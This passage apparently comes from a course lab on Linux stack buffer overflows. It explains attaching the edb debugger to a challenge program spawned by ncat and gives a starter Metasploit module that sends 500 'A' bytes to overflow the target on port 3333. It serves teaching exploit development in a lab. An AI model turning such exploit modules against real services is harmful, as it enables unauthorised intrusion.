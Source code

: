 Every time you want to test another input you will need to:

* first connect with nc from Kali (which gets ncat to spawn the program we want to debug)  
* then restart edb with the command above:
```bash
edb --attach `pgrep -n Ch_simple_BOF_1`
```
or attach using the File->Attach from the menu, and search for "Ch_simple_BOF_1"  
* Ncat will continue to automatically spawn the challenge program each time there is a connection to TCP port 3333.

## Writing an MSF exploit module {#writing-an-msf-exploit-module}

You will start by automating that buffer overflow using a metasploit exploit module.

==VM: From your Kali VM (attacker/exploit development)==

==action: Create a Metasploit exploit module, and save it as **bof1.rb** in **/home/***USERNAME***/.msf4/modules/exploits/linux/misc/**:==

> Hint: To make the directory path, you can run `mkdir -p /home/*USERNAME*/.msf4/modules/exploits/linux/misc/`

```ruby
require 'msf/core'

class MetasploitModule < Msf::Exploit::Remote  
  include Msf::Exploit::Remote::Tcp

  def initialize(info = {})

  super(update_info(info,  
	'Name' => 'BOF 1 challenge',  
	'Description' => 'Shell via overflow',  
	'Author' => [ 'Your name'],  
	'Version' => '$Revision: 1 $',  
	'Platform' => ['linux'],  
	'Targets' => [ [ 'Automatic Target', { } ],],  
	'DefaultTarget' => 0,  
	'License' => GPL_LICENSE  
  ))  
  register_options( [ Opt::RPORT(3333) ])  
end

def exploit  
  puts "A TCP based Metasploit module"  
  connect  
  banner = sock.get_once.to_s.strip  
  print_status "Banner: #{banner}"

  puts "\n\nAttach your debugger on the desktop now, then press enter"  
  gets  
  puts "Continuing!"

  bad = "A" * 500

  sock.put bad + "\n\n"  
  buf = sock.timed_read(500)  
  puts "received #{buf}"  
  buf = sock.get_once(10)  
  disconnect  
 end  
end
```


[image-1]: {{ site.baseurl }}/assets/images/software_security_exploitation/5_linux_stack_bof/image-1.png
[image-2]: {{ site.baseurl }}/assets/images/software_security_exploitation/5_linux_stack_bof/image-2.png
[image-3]: {{ site.baseurl }}/assets/images/software_security_exploitation/5_linux_stack_bof/image-3.png
[image-4]: {{ site.baseurl }}/assets/images/software_security_exploitation/5_linux_stack_bof/image-4.png
[image-5]: {{ site.baseurl }}/assets/images/software_security_exploitation/5_linux_stack_bof/image-5.png
[image-6]: {{ site.baseurl }}/assets/images/software_security_exploitation/5_linux_stack_bof/image-6.png
[image-7]: {{ site.baseurl }}/assets/images/software_security_exploitation/5_linux_stack_bof/image-7.png